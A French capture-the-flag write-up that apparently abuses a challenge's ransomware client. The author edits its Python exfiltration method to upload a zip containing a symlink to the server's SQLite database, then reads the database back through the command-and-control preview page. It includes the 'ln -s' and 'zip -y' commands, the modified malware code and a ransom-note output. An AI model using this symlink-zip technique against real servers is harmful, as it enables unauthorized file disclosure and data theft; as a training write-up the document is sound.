



Le malware exfiltre les fichiers via un zip doublement chiffré. L'objectif est de leak la database.

Le fichier de db est situé dans `/app/data/database.sqlite`, on le voit dans l'étape précédente sur la page de health.

On va réutiliser le malware pour envoyer un mauvais zip et effectuer un ZipSlip.

---

Il faut installer les dépendances (zipencrypt etc) on modifie le **`main.py`** pour envoyer des fichiers test :

```python
# [...]

class Malware:

    def __init__(self) -> None:
        # self.root = Path.home()    -> on modifie pour mettre un dossier contrôlé
        self.root = Path("./fake_files")
        self.session = CustomSession()
        self.prng = SplitMixRNG()

# [...]
```

```
$ python main.py
[!] Vous avez été piraté et 3 fichiers ont été volés.
Pour les récupérer, vous devez envoyer 0.45 BTC à l'adresse 1DNSnfoQ6kCTgP91MYQxL6nNFi16fAU5NX
Vous trouverez la preuve que nous détenons vos fichiers ici : http://localhost:3000/preview/auth/yVC_DNa3bM251cOh7FzaCFgZPTazpkWZIE4PItM5nU0
```



Le site montrant les données permet de lire 2 fichiers volés en guise de preuve.

On va donc upload sur le c2 un zip contenant un lien symbolique vers la db pour qu'en le lisant, on récupère la db :

```
$ ln -s /app/data/database.sqlite evil.txt
$ zip -y attack.zip evil.txt
```

Maintenant on modifie main.py pour envoyer ce zip au lieu d'en construire un avec les fichiers locaux :

```python
    def exfiltration(self):
        if not self.enrolled:
            raise Exception('Need to be enrolled')
        zip_password = self.prng.next().hex().encode('utf-8')
        pwd_key = self.compute_encryption_key(b'exfiltration:pwd')
        pwd_encrypted = utils.encrypt(zip_password, pwd_key)

        # -> On vire tout ce qui touche à la création du zip

        # buf = io.BytesIO()
        # zf = ZipFile(buf, mode='w')
        # for dirpath, _, filenames in os.walk(self.root):
        #     for filename in filenames:
        #         if not filename.endswith('.txt'):
        #             continue
        #         filepath = os.path.join(dirpath, filename)
        #         abs_filepath = os.path.abspath(filepath)
        #         rel_filepath = os.path.relpath(abs_filepath, self.root)
        #         if os.path.getsize(abs_filepath) > 5000000:
        #             continue
        #         zf.write(abs_filepath, rel_filepath, pwd=zip_password)
        # zf.close()
        # zip_plaintext = buf.getvalue()
      
        # -> On met notre zip piégé (pas besoin de mettre le mot de passe sur le evil.txt de notre zip)
        with open('attack.zip', 'rb') as f:
          zip_plaintext = f.read()
        
        # -> On laisse le malware faire son chiffrement sans s'en soucier
        zip_key = self.compute_encryption_key(b'exfiltration:enc')
        zip_encrypted = utils.encrypt(zip_plaintext, zip_key)
        response = self.session.post('/exfiltration', data=zip_encrypted, headers={'Content-Type': 'application/octet-stream', 'X-Zip-Password': pwd_encrypted.hex()})
        response.raise_for_status()
        return response.json()
```



On télécharge la database et on l'ouvre.



`CYBN{Plut0t_Z1p_Sl1p_qu3_C4l3c0n}`